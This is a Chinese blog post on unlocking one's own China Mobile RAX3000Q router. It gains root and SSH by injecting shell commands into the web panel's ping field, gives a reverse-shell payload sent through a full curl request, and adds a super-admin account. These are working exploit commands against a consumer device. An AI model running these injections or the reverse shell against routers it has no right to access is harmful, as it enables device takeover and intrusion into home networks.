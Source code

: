 ```yaml
---
title: "中国移动Rax3000q路由器开启ssh/telnet，解锁超级管理员"
date: 2022-09-05T10:42:27+08:00
draft: false
categories: ['其他']
tags: ["2022",'openwrt']
---
```


> 本文基于软件版本：V1.1.1.202204141725，硬件版本 TZ7.823.346A 的中国移动 RAX3000Q 路由器

## 给不想折腾的用户

有一些高级功能在前端不展示，但是登录后台之后直接访问相应链接即可使用
```
http://192.168.10.1/#/home/diagnosis/tcpdump（远程抓包设置）
http://192.168.10.1/#/home/diagnosis/packetcapture（抓包设置）
http://192.168.10.1/#/home/network/tr069（Tr069远程下发设置）
http://192.168.10.1/#/home/network/fotaSetting（和苗FOTA设置）（重启后失效）
http://192.168.10.1/#/home/network/andLink（andlink设置）
http://192.168.10.1/#/home/network/routeList（静态路由）
```
把上面的192.168.10.1改成你设置的路由访问IP即可

感谢[大佬](https://github.com/KB5201314/KB5201314.github.io/issues/4#issuecomment-1105011298)提供

## 纯干货阶段
- 删除 root 密码
    - 在web面板「诊断 - ping」页面的ip地址输入框填入以下内容后点击开始（页面没有反应，不过不用担心，执行了就行）：
    
        `$(passwd${IFS}-d${IFS}root)`
    
- 开启 ssh 服务
    - ping 输入框有长度限制且不能输入空格，我们这里使用 ${IFS} 替换空格，下面命令表示在22端口启动 dropbear ssh 服务
    - 在web面板「诊断 - ping」页面的ip地址输入框填入以下内容后点击开始：
    
        `$(dropbear${IFS}-p${IFS}22)`

- 通过 ssh 连接路由
    - 此时的 ssh 运行在 22 端口，登录后记得用`passwd`修改root账号密码
        
        `ssh -p 22 root@172.16.2.204`

    - 这里需要注意的是，ssh服务的IP是 172.16 网段的（可以通过admin登录路由器后台查看：主页 ——> LAN IP），而不是 192.168.10.1 这个路由器管理后台，我被这个东西卡了好久。登录后记得用`passwd`修改root账号密码

- 更改 dropbear 配置并设置自启
    - 编辑 dropbear 配置文件
        `vi /etc/config/dropbear`
    - 改为下面这个样子，只是修改端口和 enable 值，关于vi的使用自己百度一下吧
        ```
        config dropbear
            option PasswordAuth 'on'
            option RootPasswordAuth 'on'
            option Port         '22'
            option enable       '1' 
        ```

    - 打开 dropbear 自动启动： 
        
        `/etc/init.d/dropbear enable`

    - 启动 dropbear: (注入启动 dropbear 时占用了22 端口，可以直接重启路由看看是否有效）
    
        `/etc/init.d/dropbear start` 

- 超级管理员（被坑了好几小时）
    
    杀千刀的程序员写了一个脚本，开机后清除超级管理员账号，关键是优先级比较低，把我写的开机运行脚本都覆盖了，一直以为是我的方法没生效

    - 添加超级管理员账号（ssh登录）
        
        添加超级管理员用户: `mdlcfg -a SYS_SUPER_LOGIN_NAME="superadmin"`
        
        添加管理员密码: `mdlcfg -a SYS_SUPER_LOGIN_PWD="83583000"`

        账户密码都是可以自己设置的，不固定。此时你已经可以用设置的超管账号登录路由器后台了


    - 修改开机自动运行脚本
        `vi /etc/init.d/tz_process_start`

        这里要修改的主要有两处，首先是最后一段

        ```
        super_login_name=$(mdlcfg -g SYS_SUPER_LOGIN_NAME)
        if [ -n "$super_login_name" ]; then
            mdlcfg -d SYS_SUPER_LOGIN_NAME
            mdlcfg -d SYS_SUPER_LOGIN_PWD
            mdlcfg -d SYS_WEB_SUPER_PWD_RULE
            mdlcfg -d SYS_SENIOR_LOGIN_NAME
            mdlcfg -d SYS_SENIOR_LOGIN_PWD
            mdlcfg -d SYS_WEB_SENIOR_PWD_RULE
            mdlcfg -d SYS_WEB_SENIOR_PWD_HEAD
            mdlcfg -c
        fi
        ```

        我是直接删除的，这段删完后，重启就不会自动删除超级管理员账号了

        然后往上找到这段，关于FOTA，我也是直接删除了，在后台关闭 FOTA 是不生效的，就是因为这段脚本
        ```
        #和苗FOTA启动
        /bin/fota_start.sh restart >dev/null 2>&1 &
        ```

        其他的我就没动了

## 详细折腾过程

偶然看到一个介绍百元 WiFi6 的[帖子](https://post.smzdm.com/p/a0qe6xd8/)，想起来自己的路由器也好几年没换了，该升级一下了，在多番搜索之后选择了一个可以破解使用openwrt的型号：中国移动RAX3000Q，
只花了115就拿下了

拿到手之后我傻了，在原来那篇[破解帖子](https://blog.imlk.top/posts/rax3000q-get-shell/)之后，到我这里已经至少是第三个迭代了，删掉了luci，添加了重启删除超管账号脚本，折腾的我好累

首先最顺利的肯定就是删除root密码了，但是没法验证。

然后在[破解帖子](https://blog.imlk.top/posts/rax3000q-get-shell/)的评论区看到可以通过注入 `$(dropbear)`启动ssh服务，但是我连接的时候首先 IP 用错了，
其次 dropbear 的默认端口是被改掉了的，所以无论如何我都是连接不上了

然后通过反弹 shell 登录了服务器
### 反弹shell

反弹 shell 也是通过路由器的ping功能实现的，但是这里不能直接执行shell注入命令，因为：
- 输入框不能输入空格（使用`${IFS}`替换）
- 输入框有长度限制

我的解决办法是打开 F12，在前台输入 `$(id)` ，点击运行，以curl(bash)格式复制这条命令

然后使用反弹shell语句替换 `$(id)`，再在Linux执行curl语句

反弹shell语句为：

`$(TF=$(mktemp -u);mkfifo $TF && telnet 172.28.43.7 1031 0<$TF | ash 1>$TF)`

这里的 `172.28.43.7` 需要替换为你本地Linux的局域网地址

那么我们就有了如下步骤：

1. 在本地Linux开启端口监听： `nc -lvnp 1031`
2. 在同一局域网的Linux设备执行下面的命令

```
curl 'http://192.168.10.1/cgi-bin/http.cgi' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,ar;q=0.8' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'Origin: http://192.168.10.1' \
  -H 'Proxy-Connection: keep-alive' \
  -H 'Referer: http://192.168.10.1/' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36' \
  --data-raw '{"cmd":168,"subcmd":0,"pingTimes":10,"url":"$(TF=$(mktemp -u);mkfifo $TF && telnet 172.28.43.7 1031 0<$TF | ash 1>$TF)","method":"POST","sessionId":"51f8df5e4301e3f5dd3af3117f1118a15eeb71c64ee71293d05ee4d1065e759b"}' \
  --compressed \
  --insecure
```

上面的指令大家都可以用，只不过有些地方需要修改；
- 所有的 `192.168.10.1` 修改为你的路由器管理地址
- "url":"$(TF=$(mktemp -u);mkfifo $TF && telnet 172.28.43.7 1031 0<$TF | ash 1>$TF)" 中`172.28.43.7`改为自己的本地Linux IP
- "sessionId":"51f8df5e4301e3f5dd3af3117f1118a15eeb71c64ee71293d05ee4d1065e759b"}' 中，sessionId的值需要F12后拿到自己的sessionId替换
    
    F12后点击网络，任意点击一个 http.cgi 请求，点击载荷就可以看到本次会话的sessionId

3. 这时你的本地Linux监听页就会显示已连接上远程服务器，你可以输入 `/usr/sbin/dropbear -p 22` 在22端口开启ssh

## 后续设置

前一天晚上搞到3点，早上复盘写文章的时候才灵光突现想到只需要注入 `$(dropbear${IFS}-p${IFS}22)` 就可以在22端口开启ssh了，废了好多力气去搞反弹shell

剩下的设置都在上方干货区域了

后续会尝试安装一下 LuCI